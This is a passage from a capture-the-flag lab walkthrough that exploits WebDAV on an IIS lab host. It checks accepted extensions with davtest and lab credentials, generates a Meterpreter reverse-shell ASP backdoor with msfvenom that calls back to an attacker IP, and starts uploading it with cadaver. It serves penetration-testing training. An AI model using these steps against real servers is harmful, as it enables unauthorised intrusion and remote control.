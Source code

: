 ![fcfd58ff3a454959d82c261a6d46616b.png](../../../_resources/fcfd58ff3a454959d82c261a6d46616b.png)

&nbsp;

![ede9744b61005e5fbe00d6429f6428c5.png](../../../_resources/ede9744b61005e5fbe00d6429f6428c5.png)

![d176c4882069ed58d477067c3d30da74.png](../../../_resources/d176c4882069ed58d477067c3d30da74.png)

check other directories.

![80a31af8e87e2d2547913dcd7848e2df.png](../../../_resources/80a31af8e87e2d2547913dcd7848e2df.png)

**Let’s move to find flag 2. Let’s check the hint.**

**HINT 2 : “Valuable files are often on the C: drive. Explore it thoroughly. (target1.ine.local)”**

So, the hint is all about accessing the target. Since we found what is the vulnerable service on the IIS server, let’s do some hacking.

## 2\. Access the system

For exploiting the vulnerability, we need to use 2 tools,

*1.* ***davtest*** *\= used to check what file extensions are accepted by the server  
2.* ***cadaver*** *\= upload the vulnerable file to the target (IIS web server)*

Let’s check which files are accepted by the server using davtest.

davtest -auth bob:password_123321 -url http://10.3.26.83/webdav

You will see what files are accepted as follows.

![c194c2402d740348fa938bf3e374dd7a.png](../../../_resources/c194c2402d740348fa938bf3e374dd7a.png)

As per the results given in davtest, for this purpose let’s use the “.asp” extension. Now, we need to create a malicious file that allows us to obtain a reverse shell since we can access the “WebDav” directory. Use the following command to create a malicious file using **msfvenom**.

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.40.3 LPORT=4444 -f asp > backdoor.asp

- \-p : `payload`
- LHOST : `localhost (ip address of the attack machine)`
- LPORT : `localport (a port on the attack machine)`
- \-f : `file type`

When you run the above command, a file called “backdoor.asp” will be generated with the given parameters. You can check the file by listing the contents of the current directory, whether it is created or not.

![0f2ef8b124e2426877bb5f076dc7db60.png](../../../_resources/0f2ef8b124e2426877bb5f076dc7db60.png)

After that we can upload the generated file using **Cadaver** to the “WebDAV” directory.

cadaver http://target1.ine.local/webdav/

After that you have to provide the username and the password to access.
